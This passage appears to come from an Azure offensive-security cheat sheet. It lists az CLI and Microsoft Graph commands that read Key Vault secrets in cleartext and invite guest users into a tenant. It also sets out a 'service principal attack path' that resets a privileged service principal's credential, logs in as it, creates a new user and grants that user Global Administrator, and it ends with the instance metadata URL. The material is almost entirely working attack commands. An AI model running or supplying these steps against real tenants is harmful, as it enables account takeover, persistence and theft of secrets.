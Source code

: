 Get URI for Key Vault 

```bash
az keyvault secret list --vault-name <KeyVaultName> --query '[].id' --output tsv 
```

Get cleartext secret from keyvault 

```bash
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

#### Invite a Guest User to Tenant via AZ CLI

```powershell
$Body="{'invitedUserEmailAddress':'Email Address to Invite', 'inviteRedirectUrl': 'https://portal.azure.com'}”
az rest --method POST --uri https://graph.microsoft.com/v1.0/invitations --headers "Content-Type=application/json" --body $Body
```
Then use InvitationRedeemUrl to accept invite on guest user account

#### Service Principal Attack Path
Commands for resetting a service principal credential that has higher privileges and then using the service principal to create a new user in the tenant with global admin permissions.

Create a new credential for service principal

```bash
az ad sp credential reset --id <app_id>
az ad sp credential list --id <app_id>
```

Login as a service principal using the password and app ID from previous command

```bash
az login --service-principal -u "app id" -p "password" --tenant <tenant ID> --allow-no-subscriptions
```

Create a new user in the tenant

```bash
az ad user create --display-name <display name> --password <password> --user-principal-name <full upn>
```

Add user to Global Admin group ID via MS Graph API:

```powershell
$Body="{'principalId':'User Object ID', 'roleDefinitionId': '62e90394-69f5-4237-9190-012177145e10', 'directoryScopeId': '/'}”
az rest --method POST --uri https://graph.microsoft.com/v1.0/roleManagement/directory/roleAssignments --headers "Content-Type=application/json" --body $Body
```

### Metadata Service URL

```bash
http://169.254.169.254/metadata
```
